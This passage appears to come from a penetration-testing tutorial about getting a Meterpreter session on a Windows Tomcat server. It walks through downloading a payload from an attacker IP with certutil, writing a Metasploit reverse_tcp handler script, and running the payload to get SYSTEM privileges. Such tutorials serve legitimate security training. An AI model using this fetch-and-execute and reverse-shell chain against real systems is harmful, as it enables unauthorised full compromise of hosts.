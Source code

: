 ```
[-f] [-split]
```

`-f`: the file flag.

```
C:\Program Files\Apache Software Foundation\Tomcat 8.5>certutil -urlcache -f http://10.10.5.4/meterpreter.exe meterpreter.exe
C:\Program Files\Apache Software Foundation\Tomcat 8.5>dir
```

Set up our handler to receive the connection once we execute our meterpreter payload on the target system.

In order to do this, we can create a Metasploit RC script.

```
vim handler.rc
```

```
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 10.10.5.4
set LPORT 1234
run
:wq
```

`-r`: Load the resource script.

```
msfconsole -r handler.rc
```

That's going to set up our listener automatically.

We can now execute the meterpreter.exe payload on the target system.

```
C:\Program Files\Apache Software Foundation\Tomcat 8.5>.\meterpreter.exe
```

It's executed successfully. 

We get a Meterpreter session opened on the target system.

`getuid`: get user id.

The permissions we have available are `NT AUTHORITY\SYSTEM`, which are the highest level of privileges.

```
meterpreter > sysinfo
meterpreter > getuid
```

And we've been able to obtain a Meterpreter session by utilizing an exploit module that did not allow us to specify a Meterpreter payload. 

That's how to utilize all of the techniques that we've learned so far in regards to creating or generating payloads with msfvenom. And you've learned a few new techniques like how to transfer files from a Linux system onto a Windows system through the use of the certutil utility. So we've gained access to the target system by exploiting the Apache Tomcat web server. And then we utilized our knowledge of generating payloads to generate a Meterpreter payload, transfer it over to the target, set up our handler, execute the payload on the target through our command shell session in order to receive a Meterpreter session, which is much better than having a command shell session.
